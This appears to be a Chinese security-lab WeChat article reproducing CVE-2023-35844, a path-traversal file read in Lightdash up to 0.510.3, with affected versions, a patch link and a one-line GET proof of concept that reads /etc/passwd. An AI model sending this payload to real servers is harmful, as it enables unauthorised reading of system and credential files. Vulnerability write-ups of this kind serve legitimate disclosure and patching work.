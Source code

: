 #  Lightdash任意文件读取漏洞(CVE-2023-35844)

弥天安全实验室  [ 弥天安全实验室 ](javascript:void\(0\);)

**弥天安全实验室** ![]()

微信号 gh_41292c8e5379

功能介绍 学海浩茫，予以风动，必降弥天之润！

____

___发表于_

收录于合集

#CVE 27 个

#网络安全 30 个

#漏洞 45 个

#POC 4 个

  

  

网安引领时代，弥天点亮未来  

  
  

  

  



![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x01漏洞介绍**  

Lightdash是可视化数据分析工具。

Lightdash 0.510.3之前版本存在安全漏洞。攻击者利用该漏洞可以访问存储在web根文件夹之外的文件和目录。

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x02影响版本**  
  

Lightdash <= 0.510.3

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123324.png)

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x03漏洞复现**  
  

1.访问漏洞环境

![]()

2.对漏洞进行复现

 **  POC （GET）**

  * 

    
    
    /api/v1/slack/image/slack-image%2F..%2F..%2F..%2Fetc%2Fpasswd

漏洞复现

         GET请求，响应存在漏洞

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123326.png)

3.afrog测试（漏洞存在）

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123329.png)

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123321.png)  
 **0x04修复建议**  
  

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

  * 

    
    
    https://github.com/lightdash/lightdash/commit/fcc808c84c2cc3afb343063e32a49440d32a553c

‍

  

弥天简介

学海浩茫，予以风动，必降弥天之润！弥天弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。

口号 网安引领时代，弥天点亮未来

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123331.png)

  

知识分享完了

喜欢别忘了关注我们哦~

  

学海浩茫，予以风动，必降弥天之润！

  

   弥  天

安全实验室  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628123332.png)

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

